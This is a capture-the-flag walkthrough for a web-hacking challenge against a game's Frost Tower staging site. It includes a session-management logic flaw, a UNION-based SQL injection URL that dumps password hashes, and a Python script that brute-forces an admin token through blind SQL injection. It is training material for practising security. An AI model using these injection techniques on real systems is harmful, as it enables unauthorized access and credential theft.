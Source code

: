 ## Summary
At the top right of the main courtyard, after thawing the Frost Tower door and fixing the Frostivator elevator, go to the top floor, Jack's Office. Enter the left room, called Studio, and talk with Ingreta about the Frost website and download the sourcecode. You will practice sourcecode review and web application hacking.

## Steps
1. Review the sourcecode for flaws. If you aren't able to find anything, you can go complete the Python coding challenges (where you move the little elf to collect candies) and after level 8, the elf there will give you a few hints about where the Frost Tower Website is vulnerable.
<details>
  <summary>The Elf's Hint</summary>
  He tells you to review a couple of lib docs - the npm express-session package (https://www.npmjs.com/package/express-session) and the mysqljs/mysql package (https://github.com/mysqljs/mysql).
</details>

2. Exploit the first vulnerability on the https://staging.jackfrosttower.com/ website
<details>
  <summary>Hint 1</summary>
  The server.js file imports the express-session package. Take a look at how it uses this lib to find developer flaws in session management.
</details>

<details>
  <summary>Hint 2</summary>
  The server.js file assigns the unauthenticated user a session when a certain unauthenticated call is made with certain logic. Try to trigger it and verify a valid session by browsing to the session-protected /dashboard page.
</details>

<details>
  <summary>Hint 3</summary>
  The server.js "/postcontact" method assigns the user a session when certain logic is followed. Try to trigger it and verify a valid session by browsing to the session-protected /dashboard page.
</details>

<details>
  <summary>Answer</summary>
  Submit the /contact form using some email address. Submit the form again, using the same email address. You now have a session and can navigate to /dashboard to confirm.
</details>

3. Exploit the second vulnerability on the https://staging.jackfrosttower.com/ website
<details>
  <summary>Hint 1</summary>
  The server.js file imports the mysql package. Take a look at the official docs to identify potential mistake points where developers may accidentally insecurely implement classes/calls.
</details>

<details>
  <summary>Hint 2</summary>
  The server.js "/detail/:id" method is a good place to look.
</details>

<details>
  <summary>Hint 3</summary>
  The server.js "/detail/:id" method calls the insecure raw() method on the mysql connection to execute a raw query. Try to manipulate the user input to exploit this vulnerability.
</details>

<details>
  <summary>Answer</summary>
  While "/detail/1,1 or 1=1" will successfully return all uniquecontact details, a UNION-based SQL injection will give you all database user password hashes too! You can build this exploit by reviewing the database tables sourcecode.
  https://staging.jackfrosttower.com/detail/1,2,4%20union%20select%20*%20from%20users--
</details>

4. Exploit the second vulnerability...again...
<details>
  <summary>What's this about?...</summary>
  After getting SQL injection and the password hashes, can we login as someone? (I didn't crack any hashes...)
</details>

<details>
  <summary>Hint 1</summary>
  There are some super-protected pages that need special perms on top of a session. Can you figure out how to get in?
</details>

<details>
  <summary>Hint 2</summary>
  Take a look at how the "token" value is used and think about how it can be obtained and used.
</details>

<details>
  <summary>Answer</summary>
  I bruteforced the Super Admin token and reset their password and logged in as them. Code below. (CHANGE THE SESSION ID IN THE CODE!)

```
import requests, string
ALL = list(string.ascii_letters)
ALL.extend(string.digits)
print(ALL)
FINAL = ''

def test():
    global FINAL
    for injection in ALL:
        url = 'https://staging.jackfrosttower.com/detail/1,1%20union%20select%20*%20from%20users%20where%20id=1%20and%20token%20like%20%22HERE%25%22--'
        url = url.replace('HERE',FINAL + injection)

        r = requests.get(
            url,
            cookies={"connect.sid": "YOUR SESSION ID"}
        )
        # print(r.status_code)
        # print(r.text)
        if r.status_code!=200:
            FINAL = FINAL + injection
            print("FINAL: ", FINAL)
            if len(FINAL)==32:
                exit('DONE')

for i in range(0,32):
    test()

print('DONE')
```

</details>
